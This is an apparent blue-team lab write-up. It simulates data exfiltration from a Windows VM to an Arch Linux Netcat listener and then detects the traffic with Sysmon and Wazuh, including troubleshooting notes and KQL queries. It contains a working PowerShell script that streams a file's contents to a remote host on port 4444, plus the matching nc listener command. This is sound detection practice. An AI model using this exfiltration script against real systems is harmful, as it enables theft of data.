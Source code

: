 # Data Exfiltration Detection Simulation Summary

## Attack Overview
- **Description**: Simulated data exfiltration by transferring a test file from Windows to an Arch Linux Netcat listener on port 4444, mimicking unauthorized data theft.
- **MITRE ATT&CK**: [T1048 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- **Objective**: Detect outbound traffic on non-standard ports.
- **Date and Time**: June 13, 2025, ~11:11 PM IST

## Simulation Details
- **Environment**: Windows 10 VM (hostname: `DESKTOP-FF0MPJM`, Wazuh agent: `SIEM-Target-Windows`), Arch Linux VM (IP: 192.168.1.55).
- **Sysmon Config**: SwiftOnSecurity `sysmonconfig-export.xml`.
- **Simulation Scripts**:
  - Windows:
    ```powershell
    $serverIp = "192.168.1.55"
    $port = 4444
    $filePath = "C:\Users\Public\exfil_test.txt"
    $client = New-Object System.Net.Sockets.TcpClient($serverIp, $port)
    $stream = $client.GetStream()
    $fileContent = Get-Content -Path $filePath -Raw
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.Write($fileContent)
    $writer.Flush()
    $writer.Close()
    $stream.Close()
    $client.Close()
    ```
  - Arch Linux:
    ```bash
    nc -l -p 4444 > /tmp/exfil_received.txt
    ```
- **Execution**: Ran Netcat listener on Arch Linux, then `data_exfiltration.ps1` on Windows.
- **Expected Events**:
  - **Sysmon Event ID 3**: `powershell.exe` connection to `192.168.1.55:4444`.

## Detection
- **Sysmon Detection**:
  - Confirmed in Event Viewer (`Microsoft-Windows-Sysmon/Operational`):
    - Event ID 3 at `2025-06-13 17:41:55.159`.
    - Fields: `Image: powershell.exe`, `DestinationIp: 192.168.1.55`, `DestinationPort: 4444`.
- **Wazuh Detection**:
  - Expected Wazuh rule: `61605` (Event ID 3).
  - Search Query (Wazuh Dashboard > Security Events > Discover):
    ```kql
    win.eventdata.destinationPort:4444 OR win.eventdata.image:powershell.exe
    ```
  - **Issue**: No alerts in Wazuh dashboard.
  - **Troubleshooting**:
    - Verified `ossec.conf` includes `<location>Microsoft-Windows-Sysmon/Operational</location>`.
    - Checked Wazuh agent status (`Running`) and connectivity to manager.
    - Re-ran simulation to generate fresh event.
    - Broadened Wazuh query: `agent.name:SIEM-Target-Windows AND sysmon`.
    - Next steps: Check Wazuh manager logs (`/var/ossec/logs/ossec.log`) for parsing errors.
- **Screenshots**:
  - `screenshots\event_viewer_sysmon.png`: Sysmon Event ID 3.
  - `screenshots\wazuh_alerts_exfiltration.png`: Wazuh query (no results).
  - `screenshots\arch_netcat.png`: Arch Linux Netcat output.
- **Logs**:
  - `logs\sysmon_events.csv`: Sysmon events.
  - `logs\wazuh_agent_filtered.log`: Wazuh agent logs.
  - `logs\exfil_received.txt`: Received file.

## Learnings
- **Blue Teaming Insight**: Sysmon effectively logs network activity on non-standard ports, but SIEM integration requires robust configuration.
- **Challenges**: Missing Wazuh alerts highlight the importance of verifying log pipelines (agent to manager).
- **Technical Growth**: Learned to troubleshoot Wazuh agent issues and interpret Sysmon network events.
- **Best Practice**: Regularly audit SIEM log collection and test with known events.

## Detection Logic Query
```kql
event.code:3 AND (win.eventdata.destinationPort:4444 OR win.eventdata.image:powershell.exe) AND @timestamp:>=now-10m
```
- **Purpose**: Detects exfiltration on port 4444 or by `powershell.exe`.

## References
- [MITRE ATT&CK: Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/capabilities/sysmon.html)
- [SwiftOnSecurity Sysmon Config](https://github.com/SwiftOnSecurity/sysmon-config)

## Attachments
- **Logs**: [logs](/DetectAndDefend/Phase1/secnario-3-Data-Exfiltration/logs/log1.json)
- **Screenshots**: 
1. [ Sysmon Log Detection in Windows ](/DetectAndDefend/Phase1/secnario-3-Data-Exfiltration/screenshots/sysmon-event-log)
2. [Powershell Script Execution ](/DetectAndDefend/Phase1/secnario-3-Data-Exfiltration/screenshots/windows-script-execution-with-nc.-and-script.png)
3. [Arch Linux Netcat Listener for File from Windows ](/DetectAndDefend/Phase1/secnario-3-Data-Exfiltration/screenshots/arch-linux-nc-listener-with-script.png)
4. [Wazuh Dashboard with Event Log ](/DetectAndDefend/Phase1/secnario-3-Data-Exfiltration/screenshots/wazuh-dashboard-events-logged.png)
